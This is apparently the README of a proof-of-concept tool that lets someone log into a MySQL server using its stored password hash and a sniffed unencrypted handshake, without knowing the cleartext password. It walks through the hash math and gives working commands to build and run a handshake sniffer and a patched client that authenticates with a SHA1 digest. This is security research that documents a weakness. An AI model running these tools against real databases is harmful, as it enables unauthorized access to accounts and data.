 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`) is
used.

The main prerequisites are:

- to know the hashed password for a certain user (`password` column of the
  `mysql.user` table);

- to be able to sniff a successful authentication handshake (i.e., no SSL).

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
> SELECT user, password FROM mysql.user;
+------------------+-------------------------------------------+
| user             | password                                  |
+------------------+-------------------------------------------+
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+------------------+-------------------------------------------+

> SELECT PASSWORD('password');
+-------------------------------------------+
| PASSWORD('password')                      |
+-------------------------------------------+
| *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+-------------------------------------------+

> SELECT SHA1(UNHEX(SHA1('password')));
+------------------------------------------+
| SHA1(UNHEX(SHA1('password')))            |
+------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19 |
+------------------------------------------+
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

   where `password` is the cleartext password as provided by the user and `+` is
   a mere string concatenation operator.

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the sniffed handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of this exploit this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartext.

### Build the sniffer

To produce `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to show the usage message.

According to the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

If no account information is provided the tool will only display the salt and
the session password.

### Build a patched MySQL client

This may take some time:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/23032807537d8dd8ee4ec1c4d40f0633cd4e12f9.zip
        unzip 23032807537d8dd8ee4ec1c4d40f0633cd4e12f9.zip
        cd mysql-server-23032807537d8dd8ee4ec1c4d40f0633cd4e12f9/

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build the client only with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be in `client/mysql`, optionally install it
   globally and delete the whole source code:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1

Use `mysql-unsha1` as the regular MySQL client, just remeber that the
`--password[=password], -p[password]` option now reuqires a 40-digit hexadecimal
SHA1 string. According to the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
+---------------------------------------------------------+
| SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8')) |
+---------------------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19                |
+---------------------------------------------------------+
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
